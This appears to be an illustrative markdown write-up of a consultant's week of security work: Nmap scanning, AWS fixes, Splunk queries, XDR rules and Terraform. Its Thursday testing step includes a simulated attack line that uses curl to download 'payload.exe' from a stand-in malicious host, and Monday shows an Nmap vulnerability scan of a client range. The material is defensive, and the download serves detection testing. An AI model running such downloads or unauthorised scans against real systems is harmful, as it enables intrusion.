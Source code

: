 # **A Week in the Life of a Cybersecurity Consultant at Deloitte**  
 

---

## **📅 Monday: Financial Services Client - Comprehensive Vulnerability Assessment**  
**📍 Client:** Major European Bank  
**⏰ Schedule & Technical Workflow**  

### **1. External Attack Surface Mapping (8:00-10:00)**  
**Objective:** Identify internet-facing vulnerabilities  

**Tools & Process:**  
1. **Asset Discovery** using **Nmap**:  
   ```bash
   nmap -sV --script vulners -oA bank_scan 193.168.1.0/24
   ```
   *Explanation:* This scans the client's IP range, detects service versions (-sV), and checks for known vulnerabilities using the vulners script.

2. **Vulnerability Scanning** with **Qualys**:  
   - Configured scan profile with banking-specific checks (PCI DSS requirements)  
   - Scheduled authenticated scans for deeper detection  

**Key Finding:**  
- Outdated Apache Tomcat (CVE-2023-28708) on payment portal server  
- *Impact:* Remote code execution possible  
- *Remediation:* Patch to v9.0.75  

---

### **2. AWS Environment Assessment (13:00-15:00)**  
**Focus Areas:** EC2, RDS, IAM  

**Step-by-Step:**  
1. **Prisma Cloud Configuration:**  
   ```python
   # AWS account onboarding
   def onboard_aws(account_id):
       prisma.configure_aws(account_id)
       enable_guardduty(account_id)
       enable_security_hub(account_id)
   ```

2. **Critical Findings:**  
   - S3 bucket with financial data publicly accessible  
   - IAM users with excessive permissions (AdministratorAccess)  

**Remediation Script:**  
```bash
aws s3api put-bucket-acl --bucket financial-data --acl private
aws iam attach-user-policy --user-name analyst1 --policy-arn arn:aws:iam::aws:policy/ReadOnlyAccess
```

---

## **📅 Tuesday: Healthcare Client - HIPAA Compliance Review**  
**📍 Client:** Hospital Network  

### **1. Splunk SIEM Compliance Monitoring (10:00-12:00)**  
**Requirements:**  
- Log retention ≥6 months  
- Alerting for unauthorized access  

**Implementation:**  
1. **Index Configuration:**  
   ```spl
   # Create HIPAA-compliant index
   [index:hipaa_logs]
   homePath = /vol1/hipaa/db
   coldPath = /vol1/hipaa/colddb
   frozenTimePeriodInSecs = 15552000 # 6 months
   ```

2. **Critical Alert:**  
   ```sql
   index=win_events EventCode=4663 ObjectType="File" Account!="SYSTEM" 
   | stats count by user, ObjectName 
   | where count > sensitive_file_threshold
   ```
   *Explanation:* Monitors unauthorized access to patient files  

---

### **2. XDR Policy Alignment (15:00-17:00)**  
**HIPAA Technical Safeguards:**  
1. **Endpoint Encryption Check:**  
   ```powershell
   Get-BitLockerVolume | Select MountPoint, ProtectionStatus
   ```
2. **XDR Rule Creation:**  
   ```yaml
   - rule_id: hipaa_data_movement
     description: Detect large PHI transfers
     conditions:
       - process: "explorer.exe"
       - file_operation: "copy"
       - file_size: "> 25MB"
       - file_extension: ".pdf,.docx"
     actions:
       - alert
       - quarantine
   ```

---

## **📅 Wednesday: Retail Client - AWS & Splunk Integration**  

### **1. Real-time AWS Monitoring (9:00-11:00)**  
**Architecture:**  
```mermaid
graph LR
    A[AWS CloudTrail] --> B[S3 Bucket]
    B --> C[Splunk HTTP Event Collector]
    C --> D[Splunk Index]
    D --> E[Alerting Dashboard]
```

**Splunk Query for Suspicious Activity:**  
```sql
index=aws_cloudtrail eventName=ConsoleLogin 
| stats count by userIdentity.userName, sourceIPAddress 
| where count > 5
| lookup geoip src_ip OUTPUT country
| where country!="Germany"
```

---

## **📅 Thursday: Manufacturing Client - XDR Deployment**  

### **1. Endpoint Protection Strategy**  
**Deployment Phases:**  
1. **Pilot Group (50 devices):**  
   ```powershell
   # Silent install with logging
   Start-Process msiexec.exe -ArgumentList "/i CortexXDR-Win64.msi /qn /l*v install.log API_KEY=CLIENT-12345"
   ```
2. **Policy Rollout:**  
   - USB device control  
   - Ransomware prevention  
   - Memory protection  

**Testing Procedure:**  
```bash
# Simulate attack
python3 -c "import os; os.system('curl http://malicious.site/payload.exe -o payload.exe')"
```
*Verify XDR detection and blocking*

---

## **📅 Friday: Knowledge Consolidation**  

### **1. AWS Security Best Practices**  
**Implemented Controls:**  
1. **S3 Security:**  
   ```terraform
   resource "aws_s3_bucket" "secure" {
     bucket = "prod-data-2024"
     acl    = "private"
     
     server_side_encryption_configuration {
       rule {
         apply_server_side_encryption_by_default {
           sse_algorithm = "AES256"
         }
       }
     }
   }
   ```

### **2. Splunk Optimization Techniques**  
**Performance Tuning:**  
1. **Index Settings:**  
   ```ini
   [index:security_logs]
   maxHotBuckets = 10
   homePath.maxDataSizeMB = 10000
   ```
2. **Search Acceleration:**  
   ```sql
   | tstats summariesonly=t count from datamodel=Authentication 
   where Authentication.action=failure by _time, Authentication.user
   ```

---

## **🔧 Weekly Tool Utilization Insights**  
```mermaid
pie
    title Security Tool Usage
    "Vulnerability Scanners" : 30
    "AWS Security Tools" : 25
    "Splunk Enterprise" : 25
    "XDR Platform" : 20
```
